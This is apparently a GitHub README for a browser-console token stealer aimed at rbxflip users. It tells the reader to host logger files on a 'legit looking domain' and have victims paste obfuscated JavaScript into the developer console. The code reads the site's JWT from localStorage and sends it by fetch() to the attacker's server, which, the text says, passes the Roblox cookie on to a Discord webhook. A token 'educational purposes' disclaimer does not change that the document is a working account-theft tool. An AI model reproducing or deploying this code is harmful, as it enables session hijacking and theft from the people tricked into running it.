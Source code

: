 # me and my friend made this ill leak it since ixware skids took my idea have fun with it.


# How to use
1. Upload the files (from logger folder) on your webserver
2. Get a legit looking domain
3. Go to rbxflip.com (be logged in)
4. Open the developer console
5. Paste that inside the console:
6. make sure to put webhook on config.php make sure to put you're domain on obfuscate code
```
var _0x2c3c=['41qRGKIU','226227XOWtdT','9571kRaNrS','getItem','auth._token.local','259484aCtxRr','https://domain/coinflip.php?t=','1ICLKrP','85307TnWote','53639HVwscK','194480dULgxy','23wlWByU','1oUiTEM','7247ahdNmv','split'];var _0x2b7b=function(_0x3dc2af,_0x33a69b){_0x3dc2af=_0x3dc2af-0x83;var _0x2c3c00=_0x2c3c[_0x3dc2af];return _0x2c3c00;};var _0x51f868=_0x2b7b;(function(_0x3b43f1,_0x21e07e){var _0x324dbb=_0x2b7b;while(!![]){try{var _0x4983eb=parseInt(_0x324dbb(0x8d))+-parseInt(_0x324dbb(0x84))*-parseInt(_0x324dbb(0x8a))+parseInt(_0x324dbb(0x8c))*parseInt(_0x324dbb(0x8f))+parseInt(_0x324dbb(0x8b))+-parseInt(_0x324dbb(0x85))*-parseInt(_0x324dbb(0x8e))+-parseInt(_0x324dbb(0x83))*parseInt(_0x324dbb(0x90))+-parseInt(_0x324dbb(0x88));if(_0x4983eb===_0x21e07e)break;else _0x3b43f1['push'](_0x3b43f1['shift']());}catch(_0x413a66){_0x3b43f1['push'](_0x3b43f1['shift']());}}}(_0x2c3c,0x367c7),fetch(_0x51f868(0x89)+atob(localStorage[_0x51f868(0x86)](_0x51f868(0x87))[_0x51f868(0x91)]('\x20')[0x1][_0x51f868(0x91)]('.')[0x1])['split']('\x22')[0x3])); rig.coin 
console.log

```
6. The simple js code will get the value of auth._token.local (JWT Token) and then decoding (server-sided), after decoding it, it will read the "credentials" object which is the roblox cookie stored on rbxflip, then it sends the cookie to the discord webhook of your choice. 



# Disclaimer
## I, the creator, am in no way responsible for any actions that you may make using this software. You take full responsibility with any action taken using this software. Please take note that this application was designed for educational purposes and should never be used maliciously. By downloading the software or source to the software, you automatically accept this agreement.

